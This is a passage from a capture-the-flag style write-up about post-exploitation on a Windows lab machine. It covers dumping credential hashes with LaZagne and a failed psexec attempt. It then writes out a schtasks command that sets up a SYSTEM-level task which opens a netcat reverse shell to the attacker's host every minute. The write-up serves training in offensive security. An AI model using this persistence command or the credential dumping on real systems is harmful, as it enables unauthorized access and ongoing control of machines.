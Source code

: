 -   I upload `LaZagne.exe` with a python webserver.
    -   I run it and dump the hashes on the system.
        -   {{< figure src="/ox-hugo/2024-12-24-084730_.png" >}}
    -   I did try `psexec` however I could not find any valid shares running so this did not work.
    -   I have the hashes but cannot pass them, lets look at other options.


### Adding a Scheduled Task To Call Back Out to us: {#adding-a-scheduled-task-to-call-back-out-to-us}

This is one of my favorite techniques as I can just set the task and whenever I want start our listener.

-   `schtasks /create /tn BkD00r /tr "C:\xampp\htdocs\omrs\images\nc64.exe 10.10.14.80 4433 -e cmd" /sc minute /mo 1 /ru system`
    -   {{< figure src="/ox-hugo/2024-12-24-134200_.png" >}}
        -   **Command Breakdown**:
            1.  `/sc minute`: Specifies that the task should run every minute.
            2.  `/mo 1`: Runs the task every 1 minute.
            3.  `/ru system`: Runs the task with System privileges.
            4.  `/tr`: Specifies the action to execute, in this case, running nc64.exe with the specified options.
        -   +Note+: This techniques runs every 1 minute and calls out to my attack machine. This means that even if I disconnect I can turn on my listener again and it will call back out to em.

-   **Shell Caught**:
    -   As I can see I caught the shell disconnected, started my listener again and was re-connected again.
        -   {{< figure src="/ox-hugo/2024-12-24-134332_.png" >}}



-   I now have two forms of persistence a user with admin privileges, albeit I need to follow the standard chain of web/reverse shell to then run commands in their context using a credentialed object or start our listener and get a system shell.


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I learned to just be persistent, again this is an easier box, but I was trying to rush it. Slow down and get it done properly.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  I tried to cred stuff the voting page and not the admin page initially, really need to stop seeing two fields for user input and trying to ram creds in there. So I learned to slow down and read.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at bloodstiller dot com
